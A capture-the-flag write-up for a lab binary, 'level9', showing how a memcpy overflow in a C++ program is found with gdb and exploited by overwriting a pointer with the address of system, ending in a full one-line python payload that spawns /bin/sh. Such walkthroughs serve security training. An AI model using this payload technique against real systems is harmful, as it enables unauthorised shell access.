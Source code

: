 # level9

Nothing happens when testing the binary. With `gdb` we notice the code is in c++ :     

![image](https://github.com/chmadran/rainfall_42/assets/113340699/54e4e3ee-9c22-459a-9d7e-38844d083e83)

We also notice a call to `memcpy` which would be a vulnerability we exploit : 

![image](https://github.com/chmadran/rainfall_42/assets/113340699/38c92d99-d358-4d4e-8638-e40709596f15)

When trying to make the program segfault with `r 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'`

![image](https://github.com/chmadran/rainfall_42/assets/113340699/ea630870-3b15-4e32-865d-febefc2a46fa)

So 62 is `b` = ( 26 (uppercase letters) + 1 (index of b) ) * 4) = 108 OFFSET. 

Address of system is `0xb7d86060`

![image](https://github.com/chmadran/rainfall_42/assets/113340699/992fa82f-d998-40f9-ab11-f5f416d8a4b6)

Adresse of `$eax` overflowed at `+136` is `0x804a00c`

![image](https://github.com/chmadran/rainfall_42/assets/113340699/d32d7ac9-2b01-4b46-ab6d-b77aae57ed44)


So payload syntax will be : 

`[address of system] + [padding - number of bytes printed] + [address of eax to be replaced] + [;/bin/sh]`

So the paylaod is : 

`./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A"*104 + "\x0c\xa0\x04\x08" + ";/bin/sh")')`

